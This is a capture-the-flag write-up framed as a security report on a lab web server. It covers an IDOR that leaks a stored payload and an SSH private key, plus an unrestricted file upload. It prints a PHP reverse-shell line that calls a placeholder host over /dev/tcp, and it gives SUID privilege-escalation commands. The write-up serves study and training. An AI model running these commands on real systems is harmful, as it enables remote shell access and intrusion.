





# Quizizz CTF

**Report Title**: Critical IDOR & Remote Code Execution Vulnerabilities in Target Web Application

**Report Date**: 2025-06-20

**Prepared by**: Pritam Suryawanshi

**Target Website**: `http://13.233.145.109`

---

## Summary

This report documents two critical security vulnerability identified in the target web application.

1. **IDOR** - On the `Feedback ID` parameter that expose sensitive data.
2. **Unrestricted File Upload**, allowing user to upload and execute malicious files.

---

## Proof of Concept

- Endpoint:  `/feedback.php?id=3`



- This is a  base64 encoded php revereshell  code

---

```php
<?php
exec("sh -i >& /dev/tcp/IP/4444 0>&1");
?>   
```

- Endpoint:  `/feedback.php?id=4`



- This is a private key for SSH Authentication

---

# Technical Evidence

## Nmap Scan

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: 

80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

## Unauthorized SSH Access

```bash
ssh -i id_rsa ctfplayer@IP
```

## FLAG-1



## FLAG-2

- To get this flag we need root privilege

```bash
# Find all SUID files 
find / -perm -4000 2>/dev/null

# Using notepad we can get a root priv
cd /home/ctfplayer/folder3/notepad
./notepad
```



## FLAG-3

- This flag is base64 encoded.

```bash
RkxBR3tIZXJlX3lvdXJfZGVjb2RlZF9GbGFnfQ==

# Deocde 
echo "RkxBR3tIZXJlX3lvdXJfZGVjb2RlZF9GbGFnfQ==" | base64 -d
```

